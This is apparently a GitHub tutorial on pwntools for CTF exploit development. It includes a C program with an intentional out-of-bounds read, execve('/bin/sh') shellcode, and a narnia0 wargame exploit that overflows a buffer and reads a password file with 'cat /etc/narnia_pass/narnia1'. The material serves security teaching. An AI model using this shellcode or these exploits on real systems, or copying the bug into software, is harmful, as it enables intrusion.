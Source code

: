# pwntools - CTF toolkit

From [1]:
> Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

The following tutorials builds from [4]:

### Assembly and ELF manipulation

For a simple code like:
```C
#include <stdio.h>

int main(int argc, char* argv[])
{
	char flag[10] = {'S', 'E', 'C', 'R', 'E', 'T', 'F', 'L', 'A', 'G'};
	char digits[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
	int index = 0;

	while (1) {
		printf("Give me an index and I'll tell you what's there!\n");
		scanf("%d", &index);
		printf("Okay, here you go: %p %c\n", &digits[index], digits[index]);
	}
	return 0;
}
```

We compile it:
```bash
root@8beb97f8d305:/tutorial/tutorial6# gcc -o leaky leaky.c
```

and run the following Python script:
```Python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

Delivering:
```
root@8beb97f8d305:/tutorial/tutorial6# python example1.py
[*] '/tutorial/tutorial6/leaky'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Main at: 0x4005d6
[*]    0:   55                      push   ebp
       1:   48                      dec    eax
       2:   89 e5                   mov    ebp,esp
       4:   48                      dec    eax
       5:   83 ec 50                sub    esp,0x50
       8:   89 7d bc                mov    DWORD PTR [ebp-0x44],edi
       b:   48                      dec    eax
       c:   89                      .byte 0x89
       d:   75                      .byte 0x75
```

### Shellcode from assembly
Available in `example6.py`. Shortly:
```Python
#!/usr/bin/env python
from pwn import *

# Define the context of the working machine
context(arch='i386', os='linux')

# Get a simple shellcode
log.info("Putting together simple shellcode")

sh_shellcode2 = """
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f
        mov ebx, esp
        /* push argument array ['sh\x00'] */
        /* push 'sh\x00\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016972
        xor ecx, ecx
        push ecx /* null terminate */
        push 4
        pop ecx
        add ecx, esp
        push ecx /* 'sh\x00' */
        mov ecx, esp
        xor edx, edx
        /* call execve() */
        push SYS_execve /* 0xb */
        pop eax
        int 0x80
"""
# Create a binary out of some shellcode
e = ELF.from_assembly(sh_shellcode2, vma=0x400000, arch='i386')
```

### Shellcraft
Only managed to make it work for 32-bit binaries. Refer to `example4.py` for a working example with 32-bits and to `example5.py` for a non-working example with 64-bits.

```
docker run -v /Users/victor/basic_cybersecurity:/tutorial -it pwnbox:latest
...
root@ffac9df3ac02:/tutorial/tutorial6# python example4.py
[*] Compiling the binary narnia1_local
narnia1.c: In function 'main':
narnia1.c:21:5: warning: implicit declaration of function 'getenv' [-Wimplicit-function-declaration]
  if(getenv("EGG")==NULL){    
     ^
narnia1.c:21:18: warning: comparison between pointer and integer
  if(getenv("EGG")==NULL){    
                  ^
narnia1.c:23:3: warning: implicit declaration of function 'exit' [-Wimplicit-function-declaration]
   exit(1);
   ^
narnia1.c:23:3: warning: incompatible implicit declaration of built-in function 'exit'
narnia1.c:23:3: note: include '<stdlib.h>' or provide a declaration of 'exit'
narnia1.c:27:6: warning: assignment makes pointer from integer without a cast [-Wint-conversion]
  ret = getenv("EGG");
      ^
[*] Putting together simple shellcode
jhh///sh/bin\x89?h\x814$ri1?Qj\x04Y?Q??1?j\x0bX̀
[*] Introduce shellcode in EGG env. variable
[*] Launching narnia1_local
[!] Could not find executable 'narnia1_local' in $PATH, using './narnia1_local' instead
[+] Starting local process './narnia1_local': pid 38
[*] Switching to interactive mode
Trying to execute EGG!
$ uname -a
Linux ffac9df3ac02 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Issue raised at https://github.com/Gallopsled/pwntools/issues/1142.

### GDB integration

Issue with the terminal fixed at https://github.com/Gallopsled/pwntools/issues/1140.

New issue at https://github.com/Gallopsled/pwntools/issues/1117.

### Examples
#### narnia1
As an example, provided the following problem http://overthewire.org/wargames/narnia/narnia1.html:

```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

### Bibliography
- [1] Gallopsled, *pwntools*. Retrieved from https://github.com/Gallopsled/pwntools.
- [2] Gallopsled, *pwntools Docs*. Retrieved from https://docs.pwntools.com/en/stable/index.html.
- [3] Exploit Database. Retrieved from https://www.exploit-db.com/.
- [4] University Politehnica of Bucharest, Computer Science and Engineering Department, Computer and Network Security. *Lab 07 - Exploiting. Shellcodes (Part 2)*. Retrieved from https://ocw.cs.pub.ro/courses/cns/labs/lab-07.

